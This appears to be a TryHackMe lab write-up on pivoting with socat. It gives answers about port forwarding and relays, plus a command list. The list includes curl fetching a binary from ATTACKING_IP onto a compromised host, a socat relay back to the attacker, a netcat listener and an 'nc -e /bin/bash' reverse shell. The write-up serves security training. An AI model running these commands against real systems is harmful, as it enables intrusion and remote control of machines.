 Answer the questions below

1. Which socat option allows you to reuse the same listening port for more than one connection?  

**`reuseaddr`**

2. If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

**`./socat tcp-l:8000 tcp:172.16.0.200:443`**

Use TCP port 8000 for the server listener, and **do not** background the process.  


3. What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?  

**`./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`**

4. **Bonus Question (Optional):** Try to create an encrypted port forward or relay using the `OPENSSL` options in socat. Task 7 of the [shells](https://tryhackme.com/room/introtoshells) room may help with this.

**Listening on a port using SSL and printing to STDOUT**

```php
socat OPENSSL-LISTEN:4433,reuseaddr,cert=./cert.pem,cafile=./ca.cert.pem,key=./key.pem,verify=0 STDOUT
```

---

**Useful Commands**

**Reverse Shell Relay**

On Kali (inside the directory containing your Socat binary) start http server:
```php
sudo python3 -m http.server 80
```

Retrieve file:
```php
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

Start a standard netcat listener:
```php
nc -lvnp 443
```

On the compromised server, use the following command to start the relay:
```php
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._ You will also need the nc-username binary for the next part (following tools instructions for naming). 

Create a reverse shell to the newly opened port 8000:
```php
./nc-<USERNAME> 127.0.0.1:8000 -e /bin/bash
```
